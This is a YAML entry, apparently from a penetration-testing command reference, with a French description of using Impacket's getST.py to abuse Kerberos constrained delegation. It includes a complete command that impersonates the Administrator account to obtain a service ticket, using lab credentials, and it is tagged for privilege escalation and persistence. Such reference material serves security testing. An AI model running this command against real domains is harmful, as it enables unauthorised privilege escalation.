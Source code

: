 ```yaml
---
description: |
  Le fichier getST.py d'Impacket demandera un ticket de service et le sauvegardera dans ccache. Si le compte a des privilèges de délégation restreints, vous pouvez utiliser le drapeau `-impersonate` pour demander un ticket au nom d'un autre utilisateur. La commande suivante usurpe l'identité du compte Administrateur et demande un ticket de service en son nom pour le service `www` sur l'hôte `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: john

  	Password: password123

  	Impersonated User: Administrator

command: |
  python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john:password123
items:
  - Username
  - Password
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

